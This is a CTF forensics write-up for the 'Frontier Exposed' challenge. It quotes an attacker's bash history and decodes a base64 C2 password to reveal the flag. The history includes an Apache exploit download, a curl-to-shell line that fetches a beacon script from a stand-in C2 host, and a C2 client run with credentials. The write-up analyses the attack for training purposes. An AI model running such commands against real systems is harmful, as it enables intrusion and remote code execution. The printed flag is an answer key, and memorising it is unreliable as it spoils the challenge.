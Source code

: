 ```yaml
---
title: "Frontier Exposed"
description: "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"
pubDate: 2024-12-17
ctf: "HackTheBox University CTF 2024"
category: "forensics"
author: "sealldev"
section: "CTFs"
image: "images/24-htbuni/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/htbunictf2024#frontier-exposed)

Opening the files, the first thing I check is the `.bash_history` as generally it helps with retracing an attackers steps.

```
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

I spot the password as a base64 string: `SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9`, which is the flag.

Flag: `HTB{C2_cr3d3nt14ls_3xp0s3d}`